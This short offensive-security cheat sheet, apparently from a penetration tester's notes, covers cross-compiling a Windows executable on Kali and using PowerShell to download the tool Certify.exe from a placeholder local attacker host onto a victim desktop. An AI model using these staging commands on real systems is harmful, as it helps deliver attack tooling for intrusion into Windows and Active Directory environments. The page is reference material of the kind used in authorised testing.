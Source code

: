 Cross compiling on KALI:
---
```bash
i686-w64-mingw32-gcc -o test.exe test.c
```
Download file using PowerShell:
---
#powershell #download #windows
```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
```powershell
iwr $URL -outfile $FILENAME
```

